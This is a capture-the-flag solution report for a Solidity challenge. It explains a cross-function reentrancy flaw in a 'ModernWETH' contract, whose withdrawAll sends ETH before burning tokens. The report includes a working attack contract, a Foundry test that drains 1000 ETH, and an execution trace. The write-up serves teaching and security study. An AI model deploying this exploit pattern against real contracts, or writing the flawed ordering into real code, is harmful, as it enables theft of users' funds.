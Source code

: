 # Challenge 2: Mission Modern WETH - Solution Report

## Problem Overview

### Contract Summary

The challenge revolves around the `ModernWETH` contract, which is an implementation of Wrapped Ether (WETH) with potential vulnerabilities. The main functionalities include:

- `deposit()`: Allows users to deposit ETH and receive mWETH tokens.
- `withdraw(uint256 wad)`: Enables users to burn mWETH tokens and receive ETH.
- `withdrawAll()`: Allows users to burn all their mWETH tokens and receive the corresponding ETH.

### Initial Setup

- The `ModernWETH` contract is deployed with an initial balance of 1000 ETH, deposited by a whale address.
- The whitehat hacker (attacker) starts with an initial balance of 10 ETH.

### Success Criteria

To successfully complete the challenge, the following conditions must be met:

- The `ModernWETH` contract's balance should be reduced to 0 ETH.
- The whitehat hacker's final balance should be 1010 ETH (initial 10 ETH + 1000 ETH rescued from the contract).

## Vulnerability

The vulnerability in the `ModernWETH` contract lies in the `withdrawAll()` function. The function contains a cross-function reentrancy vulnerability due to improper state management. The vulnerable code is as follows:

```solidity
function withdrawAll() external nonReentrant {
    (bool success,) = msg.sender.call{value: balanceOf(msg.sender)}("");
    require(success, "mWETH: ETH transfer failed");

    _burnAll();
}
```

The vulnerability arises because:

1. The function sends ETH to the caller before burning the mWETH tokens.
2. The `nonReentrant` modifier prevents direct reentrancy within the same function, but it doesn't prevent cross-function reentrancy.
3. The `_burnAll()` function is called after the ETH transfer, allowing an attacker to manipulate their token balance before it's burned.

This order of operations creates a window where an attacker can receive ETH without their mWETH balance being immediately reduced. By exploiting this vulnerability, an attacker can repeatedly call `withdrawAll()` and manipulate their mWETH balance, effectively draining the contract's ETH reserves without losing an equivalent amount of mWETH tokens.

## Attack Process

The attack exploits the cross-function reentrancy vulnerability in the `ModernWETH` contract. The process involves the following steps:

1. Deploy an attacker contract (`ModernWETHAttack`) that interacts with the `ModernWETH` contract.

2. The attacker contract deposits a small amount of ETH (e.g., 10 ETH) into the `ModernWETH` contract to receive mWETH tokens.

3. The attacker contract calls the `withdrawAll()` function of `ModernWETH`.

4. When `ModernWETH` sends ETH to the attacker contract, it triggers the `receive()` function in the attacker contract.

5. Inside the `receive()` function, the attacker contract immediately transfers the received mWETH tokens to the owner (whitehat) address. This prevents the tokens from being burned in the subsequent `_burnAll()` call.

6. The `withdrawAll()` function in `ModernWETH` completes, burning the attacker contract's mWETH balance, which is now zero.

7. Steps 3-6 are repeated in a loop until the `ModernWETH` contract's ETH balance is drained.

8. The attacker contract returns the initial deposit to the owner.

9. Finally, the whitehat (owner) calls `withdrawAll()` on the `ModernWETH` contract to convert all accumulated mWETH tokens into ETH.

This process allows the attacker to continuously withdraw ETH from the `ModernWETH` contract while preserving their mWETH balance. Each iteration increases the amount of mWETH tokens held by the whitehat, which can ultimately be converted back to ETH, effectively draining the entire contract.

## Proof of Concept (PoC)

### Core Implementation

The core of the attack is implemented in the `ModernWETHAttack` contract:

```solidity
contract ModernWETHAttack {
    ModernWETH public modernWETH;
    address public owner;

    constructor(ModernWETH _modernWETH) {
        modernWETH = _modernWETH;
        owner = msg.sender;
    }

    function attack() external payable {
        require(msg.sender == owner, "Not owner");
        uint256 depositAmount = msg.value;

        while (modernWETH.balanceOf(owner) + depositAmount <= address(modernWETH).balance) {
            modernWETH.deposit{value: depositAmount}();
            modernWETH.withdrawAll();
        }

        (bool success,) = payable(owner).call{value: depositAmount}("");
        require(success, "Transfer back failed");
    }

    receive() external payable {
        modernWETH.transfer(owner, msg.value);
    }
}
```

The attack is executed in the `testWhitehatRescue()` function of the `Challenge2Test` contract:

```solidity
function testWhitehatRescue() public {
    vm.startPrank(whitehat, whitehat);

    ModernWETHAttack attacker = new ModernWETHAttack(modernWETH);
    attacker.attack{value: 10 ether}();
    modernWETH.withdrawAll();

    vm.stopPrank();

    assertEq(address(modernWETH).balance, 0, "ModernWETH balance should be 0");
    assertEq(address(whitehat).balance, 1010 ether, "whitehat should end with 1010 ether");
}
```

### Running Result

```
Ran 1 test for test/Challenge2.t.sol:Challenge2Test
[PASS] testWhitehatRescue() (gas: 4158538)
Traces:
  [5203438] Challenge2Test::testWhitehatRescue()
    ├─ [0] VM::startPrank(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA])
    │   └─ ← [Return]
    ├─ [246111] → new ModernWETHAttack@0x987B1cb2d9309b71A0390B8e70fA90A865dC4E27
    │   └─ ← [Return] 1007 bytes of code
    ├─ [4895879] ModernWETHAttack::attack{value: 10000000000000000000}()
    │   ├─ [2563] ModernWETH::balanceOf(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA]) [staticcall]
    │   │   └─ ← [Return] 0
    │   ├─ [29362] ModernWETH::deposit{value: 10000000000000000000}()
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: ModernWETHAttack: [0x987B1cb2d9309b71A0390B8e70fA90A865dC4E27], value: 10000000000000000000 [1e19])
    │   │   └─ ← [Stop]
    │   ├─ [38862] ModernWETH::withdrawAll()
    │   │   ├─ [23683] ModernWETHAttack::receive{value: 10000000000000000000}()
    │   │   │   ├─ [22994] ModernWETH::transfer(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], 10000000000000000000 [1e19])
    │   │   │   │   ├─ emit Transfer(from: ModernWETHAttack: [0x987B1cb2d9309b71A0390B8e70fA90A865dC4E27], to: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], value: 10000000000000000000 [1e19])
    │   │   │   │   └─ ← [Return] true
    │   │   │   └─ ← [Stop]
    │   │   ├─ emit Transfer(from: ModernWETHAttack: [0x987B1cb2d9309b71A0390B8e70fA90A865dC4E27], to: 0x0000000000000000000000000000000000000000, value: 0)
    │   │   └─ ← [Stop]

// ...
// 99 remaining transfers of 10 mWETH to whitehat
// ...

    │   ├─ [563] ModernWETH::balanceOf(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA]) [staticcall]
    │   │   └─ ← [Return] 1000000000000000000000 [1e21]
    │   ├─ [0] whitehat::fallback{value: 10000000000000000000}()
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [13179] ModernWETH::withdrawAll()
    │   ├─ [0] whitehat::fallback{value: 1000000000000000000000}()
    │   │   └─ ← [Stop]
    │   ├─ emit Transfer(from: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], to: 0x0000000000000000000000000000000000000000, value: 1000000000000000000000 [1e21])
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    └─ ← [Stop]
```
